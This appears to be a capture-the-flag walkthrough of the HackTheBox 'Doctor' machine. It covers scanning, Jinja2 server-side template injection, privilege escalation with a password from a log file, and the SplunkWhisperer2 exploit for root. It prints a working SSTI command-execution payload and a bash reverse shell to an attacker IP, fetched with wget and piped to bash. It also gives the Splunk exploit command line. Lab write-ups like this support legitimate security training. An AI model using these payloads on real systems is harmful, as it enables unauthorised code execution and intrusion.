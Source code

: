 ```yaml
---
title: HackTheBox - Doctor
date: 2021-02-07 14:37:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, SSTI, reverse-shell, plain text password, splunk, SplunkWhisperer2, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/Doctor.png
---
```


## Foothold

### Nmap scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sC -sV -p- 10.10.10.209
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-16 10:19 CET
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.094s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd 2.4.41 (port 80)

When we go to [http://10.10.10.209/](http://10.10.10.209/), one of the first thing we can notice is: 

![web](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/web.png)

After adding `doctors.htb` to `/etc/hosts` we have a totally different page:

![doctors.htb domain](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/doctors_domain.png)

### SSTI (Server Side Template Injection)

If we check the source code of the main page, we can see there is a link to [http://doctors.htb/archive](http://doctors.htb/archive) (which is commented):

![/archive](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/source_archive.png)

After trying many types of injections in [http://doctors.htb/post/new](http://doctors.htb/post/new), we can figure out that the website is vulnerable to templates injections.

As we can see:

![payload in new messages](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/post.png)

The payload above leads to this render result in [http://doctors.htb/archive](http://doctors.htb/archive)

![SSTI render result](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/SSTI.png)

Now let's do a **reverse shell**.

### Reverse shell

Thanks to the payload above, we can now call give to [http://doctors.htb/archive](http://doctors.htb/archive) another GET parameter: "**include**".

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

> We inject python templates because the target server is a **Werkzeug server version 1.0.1** using **Python version 3.8.2**

![SSTI payload add input GEt paremeter](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/SSTI_payload.png)

This parameter takes a shell command that we want to run, for instance `ls`:

![/archive?input=ls](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/input_ls.png)

In order to have a reverse shell, I created a file called **reverse.sh**:

```bash
bash -i >& /dev/tcp/10.10.14.9/4444 0>&1
```

On my machine, I ran an HTTP Server:

```bash
$ python3 -m http.server
```

If we type this URL on our browser, we have access to a shell on the target server with the user **web**:

`http://doctors.htb/archive?input=wget -O - http://10.10.14.9:8000/reverse.sh | bash`

![reverse shell as web user](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/reverse_shell.png)

## User (shaun)

There is another user on the machine: **shaun**.

```bash
web@doctor:~$ cd /home
web@doctor:/home$ ls
shaun
web
web@doctor:/home$ cd shaun
web@doctor:/home/shaun$ ls
user.txt
```

I used [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), then I saw this interesting log:

![reset password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/reset_password.png)

```bash
web@doctor:/var/backups$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
# Spawning a TTY Shell
python3 -c "import pty; pty.spawn('/usr/bin/bash')"
shaun@doctor:~$
shaun@doctor:~$ cat user.txt
cat user.txt
0d5dec4a853e2f82567c3d0792b7a679
```

## Root

Remember [nmap scan](#nmap-scan-open-ports) ? We saw that `splunk` is currently running on the target sever: 

![ps auxf - splunkd](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/ps_auxf_splunkd.png)

![uncommon passwd files](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/uncommon_passwd_files.png)

By looking for _"splunk privilege escalation"_, we find this repo [https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2).

`PySplunkWhisperer2_remote.py` allows us to run a remote payload as `root`:

![Splunk Whispere](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/pysplunk.png)

> Payload: `python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.9 --username shaun --password Guitar123 --payload "cat /root/root.txt > /dev/shm/flag; chmod 444 /dev/shm/flag"`

Finally we got the flag:

![Root flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/doctor/root_flag.png)

___

## Useful links

- [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)
